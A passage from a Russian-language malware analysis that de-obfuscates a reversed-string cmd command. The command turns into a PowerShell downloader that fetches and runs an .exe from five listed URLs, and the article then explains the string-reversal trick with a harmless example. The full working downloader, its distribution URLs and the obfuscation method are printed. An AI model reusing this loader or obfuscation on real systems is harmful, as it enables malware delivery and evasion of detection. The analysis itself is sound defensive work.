 Параметр /V:ON, судя по справке:
<pre>
/V:ON Enable delayed environment variable expansion 
         this allows a FOR loop to specify !variable! instead of %variable% 
         expanding the variable at execution time instead of at input time.
</pre>

позволяет переменной получать новое значение в каждой итерации цикла FOR.

Далее идет сама команда на выполнение. Разобьем ее на две части. 
1-ая часть:`set SiQ=;'cjqhpb'=qijmnd$}}{hctac}};kaerb;'bchkzfb'=dqkzr$;hkjzjlz$ metI-ekovnI{ )00004 eg- htgnel.)hkjzjlz$ metI-teG(( fI;'jrkjik'=ciikdj$;)hkjzjlz$ ,qjcaki$(eliFdaolnwoD.irhwidj${yrt{)ujbwa$ ni qjcaki$(hcaerof;'exe.'+zbwnifi$+'\'+pmet:vne$=hkjzjlz$;'ziwmvv'=pzrifoh$;'904' = zbwnifi$;'scjmbw'=fmsqvii$;)'@'(tilpS.'41fpegeLDajCgKnc/moc.ssenisubrusoh.www//:ptth@Mw6O63Df_Cm066CcdkU7o/moc.aicizyhp.www//:ptth@j7OEo_7MhAbZp6jnHp/zt.oc.skeegt.liam//:ptth@8or1uzsdZ8vie/RXI/sedulcni-pw/moc.srevirehtybkramdnal//:ptth@R8Fd3N9UmbYBzI/ten.enoniletoh.www//:ptth'=ujbwa$;tneilCbeW.teN tcejbo-wen=irhwidj$;'imsizuu'=iijirwb$ ll%1,3-~:PMET%h%1,4-~:EMANNOISSES%r%1,5~:CILBUP%wop`

2-ая часть: `for /L %h in (657,-1,0)do set nu=!nu!!SiQ:~%h,1!&&if %h equ 0 echo !nu:~-658!| cmd`

В первой части, переменной SiQ устанавливается какой-то набор символов. Как мы заметили ранее, она очень похожа на перевернутую строку. Развернет ее и получим:

`pow%PUBLIC:~5,1%r%SESSIONNAME:~-4,1%h%TEMP:~-3,1%ll $bwrijii='uuzismi';$jdiwhri=new-object Net.WebClient;$awbju='http://www.hotelinone.net/IzBYbmU9N3dF8R@http://landmarkbytherivers.com/wp-includes/IXR/eiv8Zdszu1ro8@http://mail.tgeeks.co.tz/pHnj6pZbAhM7_oEO7j@http://www.phyzicia.com/o7UkdcC660mC_fD36O6wM@http://www.hosurbusiness.com/cnKgCjaDLegepf14'.Split('@');$iivqsmf='wbmjcs';$ifinwbz = '409';$hofirzp='vvmwiz';$zljzjkh=$env:temp+'\'+$ifinwbz+'.exe';foreach($ikacjq in $awbju){try{$jdiwhri.DownloadFile($ikacjq, $zljzjkh);$jdkiic='kijkrj';If ((Get-Item $zljzjkh).length -ge 40000) {Invoke-Item $zljzjkh;$rzkqd='bfzkhcb';break;}}catch{}}$dnmjiq='bphqjc';`

Мы были правы, после разворачивания мы видим урлы и корректные ключевые слова. А это значит что разворачивание строки происходит во второй части.

Чтобы понять, как работают эти обе части, я приведу небольшой пример. Допустим мы хотим обфусцировать вызов `help` в `cmd`.
Для этого устанавливаем переменную окружению `siq=pleh`(help наоборот).
`for /L %h in (3,-1,0)do` - цикл с 4 итерациями, на каждую букву
`set nu=!nu!!siq:~%h,1!` - каждую итерацию, мы добавляем к переменной `nu`, значение `siq:~%h,1`, так как `%h` это индекс строки с конца, то мы каждую итерацию составляем строку равную обратной.
`if %h equ 0 echo !nu:~-4! | cmd` - ждем пока каждый символ не обработаем и отправляем результат на выполнение в cmd. В итоге получаем такую команду:
`set siq=pleh&& for /L %h in (3,-1,0)do set nu=!nu!!siq:~%h,1!&& if %h equ 0 echo !nu:~-4! | cmd`
